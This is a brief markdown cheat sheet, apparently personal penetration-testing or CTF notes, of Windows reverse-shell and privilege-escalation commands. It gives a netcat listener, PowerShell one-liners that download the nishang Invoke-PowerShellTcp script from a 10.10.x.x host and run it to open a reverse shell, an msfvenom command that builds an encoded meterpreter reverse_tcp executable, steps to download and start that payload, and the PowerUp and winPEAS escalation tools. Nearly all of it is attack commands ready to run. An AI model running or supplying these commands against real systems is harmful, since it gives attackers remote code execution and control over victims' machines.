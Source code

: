 # reverses 

## windows ncat binary

https://github.com/andrew-d/static-binaries/raw/master/binaries/windows/x86/ncat.exe


## nishang reverse tcp binay
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1


Use python2 -m SimpleHTTPServer 8888 : to serve

nc -lvp 4445 : listener

powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://10.10.121.196:8888/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress 10.10.121.196 -Port 4445"

powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.92.19:8080/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.92.19 -Port 4444

## meterpreter 

Generate

msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe

Download
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"
  
Start 
Start-Process "shell-name.exe"
  
  

# Privilege elevation

## winPea
https://github.com/carlospolop/PEASS-ng/releases/download/20221009/winPEASany.exe


## PowerUp 

https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

PS > . .\Powerup.ps1
PS > Invoke-Allchecks  



# Download file

(new-object System.Net.WebClient).DownloadFile('http://www.xyz.net/file.txt','C:\tmp\file.txt')

(new-object System.Net.WebClient).DownloadFile('http://10.10.121.196:8888/winPEASany.exe','C:\Users\bill\Desktop\winPEASany.exe')




